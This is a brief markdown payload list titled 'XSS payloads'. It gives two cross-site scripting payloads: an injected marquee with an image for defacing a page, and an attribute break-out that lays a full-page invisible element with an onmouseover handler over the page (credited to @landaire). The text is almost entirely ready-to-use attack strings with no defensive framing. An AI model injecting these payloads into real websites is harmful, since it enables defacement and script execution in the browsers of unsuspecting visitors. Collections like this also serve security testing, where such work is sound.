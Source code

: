 # XSS payloads

```<marquee behavior="scroll" direction="left"><img src="<put image here>" width=“800” height=“600” alt="Natural" /></marquee>```

Scrolling marquee continuous

```style="width: 10000px; height: 10000px; position: absolute; top: 0; left: 0; z-index: 99999999" onmouseover=alert(0) &targetWidth=100&targetHeight=100" ```

On mouse over that covers page by @landaire

